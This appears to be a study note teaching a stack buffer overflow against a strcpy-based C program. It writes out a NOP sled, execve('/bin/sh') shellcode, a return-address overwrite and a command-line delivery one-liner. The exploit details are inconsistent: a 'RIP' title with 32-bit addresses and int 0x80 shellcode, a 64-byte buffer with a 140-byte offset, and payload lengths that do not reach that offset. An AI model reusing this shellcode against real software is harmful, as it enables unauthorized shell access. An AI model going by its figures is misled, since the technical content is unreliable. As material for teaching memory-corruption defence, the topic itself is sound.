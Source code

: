 > [!example] Buffer Overflow Exploit: Overwriting RIP
> Vulnerable C code:
> ```c
> void func(char *arg) {
>     char buffer[64];
>     strcpy(buffer, arg);  // Vulnerable: no bounds checking
> }
> 
> int main(int argc, char *argv[]) {
>     if (argc > 1) func(argv[1]);
>     return 0;
> }
> ```
> 
> Goal: Execute unauthorized commands by manipulating the program's memory.
> 
> We achieve this by:
> 1. Overflowing the buffer to overwrite the return address (RIP)
> 2. Replacing the return address with a pointer to our malicious code
> 3. Injecting our malicious code (shellcode) into the buffer
> 
> Exploit process:
> 1. Analyze the program's memory layout:
>    - Why? To determine how to craft our payload for successful exploitation
>    - We need to find:
>      - Where our input buffer starts (e.g., address 0xffffd1f0)
>      - Where the return address is stored (e.g., at 0xffffd27c)
>      - How many bytes between these points (offset: 140 bytes)
>    This information is crucial for precisely positioning our payload components
> 
> 2. Craft a payload based on our memory analysis:
>    ```python
>    nop_sled = "\x90" * 80
>    shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
>    filler = "A" * 26
>    new_rip = "\xfc\xd1\xff\xff"  # 0xffffd1fc in little-endian
>    payload = nop_sled + shellcode + filler + new_rip
>    ```
> 
>    Payload components and their purposes:
>    - [[NOP]] sled: 80 bytes of harmless instructions (0x90) to increase our chances of successful execution
>    - Shellcode: 23 bytes of machine code that will spawn a shell when executed
>    - Filler: 26 bytes of 'A's to reach the exact location of the return address
>    - New return address: Points to our NOP sled, ensuring our shellcode gets executed
> 
>    The NOP sled provides a larger target area in case our address guess is slightly off. We use little-endian format for the new return address to match the system's byte order.
> 
> 3. Feed the payload to the program:
>    ```bash
>    ./vulnerable_program $(python -c 'print "\x90"*80 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*26 + "\xfc\xd1\xff\xff"')
>    ```
>    This step delivers our carefully crafted payload to exploit the buffer overflow vulnerability
> 
> 4. Exploit execution:
>    - Our payload overflows the buffer, overwriting the original return address
>    - When func() returns, it jumps to our injected code instead of the intended location
>    - Execution slides through the NOPs to our shellcode
>    - The shellcode runs, spawning a shell with elevated privileges
> 